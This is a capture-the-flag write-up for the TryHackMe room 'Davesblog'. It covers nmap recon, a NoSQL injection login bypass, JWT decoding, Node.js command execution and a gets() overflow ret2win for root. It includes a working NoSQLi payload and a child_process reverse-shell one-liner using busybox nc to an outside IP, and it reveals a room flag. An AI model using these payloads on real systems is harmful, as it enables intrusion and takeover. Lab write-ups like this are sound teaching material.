 <h3> Davesblog TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe08f1e1-1816-4a36-8e3c-a5a65985d426)

Checking the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4d01c87-c206-417e-9cfa-1ec50bf94091)

From looking at the web app server builtins we can see this

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/699e3b64-a912-42dc-9981-f07f4bac6a09)

This tells us that the web server is running on Express which is basically NodeJS and also the db is NoSQL

Checking the /admin directory shows a login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f349a68b-2136-4aa8-af74-9e247ae4a70e)

Since we don't currently know any cred to use lets try NoSQLi 

I used [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to get my payload to be:

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

And remember the *Content-Type* should be set to *application/json*

Trying that bypasses the login form
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/046e84e9-57e8-481b-89f1-08b9b76bed54)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66883af2-ca6e-41be-af4a-263eecd1a4de)

A new cookie is formed and its a jwt token 

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a7d75288-15ec-4e23-8793-f0cf70640399)

Using [jwt.io](https://jwt.io/) I decoded the jwt token and got the first flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e97c9fe-1ad5-4a1a-883b-59e50e80d435)

There's a place which claims to be executing system commands but when i try execute normal commands it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70d80988-4740-4c49-bbb8-0db576988e65)

Since we know that the web server is build on NodeJs lets execute a NodeJS command
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/98e7ddae-13d6-4554-9f14-c20c612adf99)

```js
(() => { return require("child_process").execSync("whoami;", { timeout: 5000 }); })();
```

Now lets get shell :D

```js
(() => { return require("child_process").execSync("busybox nc 10.2.42.156 1337 -e /bin/bash;", { timeout: 5000 }); })();
```

To stabilize the shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/79634295-3ecd-410c-932c-543f9a59b040)

Let us escalate privilege to root 

Checking *sudo -l* shows we can run */uid_checker* as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ecb24c00-ad9c-4387-8297-4df0889b4f4f)

I downloaded the binary to my box for further analysis
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2d6c9d04-c0e6-4256-abc9-7eca510b77f3)

Basic file checks
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/250d9677-1334-4985-8fea-bee0b4091c93)

We're working with a x64 binary which is dynamically linked and not stripped and from the mitigation check we can see that only NX is enabled

Running strings on the binary gives the 4th flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b7c152fd-7fa9-46f8-a791-ec2a518e1be3)

Using ghidra I'll do dynamic analysis on the binary

Here's the decompiled main function

```c
void main(void)

{
  int option;
  char buf [72];
  __uid_t uid;
  __gid_t gid;
  
  puts("Welcome to the UID checker!\nEnter 1 to check your UID or enter 2 to check your GID");
  gets(buf);
  option = strcmp(buf,"1");
  if (option == 0) {
    uid = getuid();
    printf("Your UID is: %d\n",(ulong)uid);
  }
  else {
    option = strcmp(buf,"2");
    if (option == 0) {
      gid = getgid();
      printf("Your GID is: %d\n",(ulong)gid);
    }
    else {
      option = strcmp(buf,"THM{runn1ng_str1ngs_1s_b4sic4lly_RE}");
      if (option == 0) {
        puts("Wow! You found the secret function! I still need to finish it..");
      }
      else {
        puts("Invalid choice");
      }
    }
  }
  return;
}
```

Basically it's just a uid and gid checker but we're not interested in that 

We can spot the vulnerability that is the usage of gets() to receive our input

Looking through the function there's a secret function 

Here's it decompiled code

```c
void secret(void)

{
  puts("How did you get here???");
  system("/bin/sh");
  return;
}
```

With this we can tell this is just a ret2win sorta challenge 

All we need to do is to hijack the program execution then make the instruction pointer points to the secret function address

Lets get the offset
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43eea022-4f96-4eff-b6d8-bfce95d2052d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ac6c7fec-e434-4331-b549-69b0807496bd)

Cool the offset is *88*. 

Here's my solve [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/davesblog/solve.py)

Running it works locally and creates the payload file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/096b136b-77db-44b7-b60f-4c1422ce93c6)

I'll transfer the payload to the target
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a4a1af4-dfcf-4922-8561-d1d325fb5102)

Running the payload on the binary gives shell as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/91247418-1de7-4bdf-9034-3661489175c5)


